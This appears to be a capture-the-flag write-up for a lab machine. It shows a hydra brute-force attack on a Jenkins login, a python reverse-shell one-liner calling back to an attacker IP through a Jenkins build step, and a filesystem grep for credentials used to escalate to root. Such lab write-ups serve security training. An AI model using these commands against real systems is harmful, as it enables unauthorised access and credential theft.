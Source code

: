 ### HYDRA

The 8080 run a webserver running the Jenkins webapp.<br>
But we don't have any credentials, so we will try to brute force using hydra<br>
The most common user is <strong>admin</strong>
So let's capture a connexion using burp suite like for the wordpress blog<br>
j_username=username&j_password=password&from=%2F&Submit=Sign+in<br>
to : /j_acegi_security_check<br>

> hydra -l admin -P /usr/share/wordlists/rockyou.txt "http-post-form://localhost:8080/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password"

And we got a match :<br>
| [80] | [http-post-form] | host: internal.thm login:admin | password: [REDACTED] |
  
## Jenkins to Reverse Shell

When creating a new Jenkins job, you can set a custom shell command to be run, and this command can be a reverse shell.<br>
First, create the job : New item -> Freestyle Style -> General -> Build -> add Build step -> Execute shell<br>

I will use a python reverse shell from the revshells.com<br>

> python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
;s.connect(("10.8.9.166",4444));os.dup2(s.fileno(),0);
 os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'


We spawn in a docker container without root privileges<br>
Let's try to find some credentials like aubreanna.<br>

> grep -R root / 2>/dev/null

/opt/note.txt:root:[REDACTED]<br>
Using it on the victim system, with aubreanna user, we can escalate to root and retrieve the flag.<br>


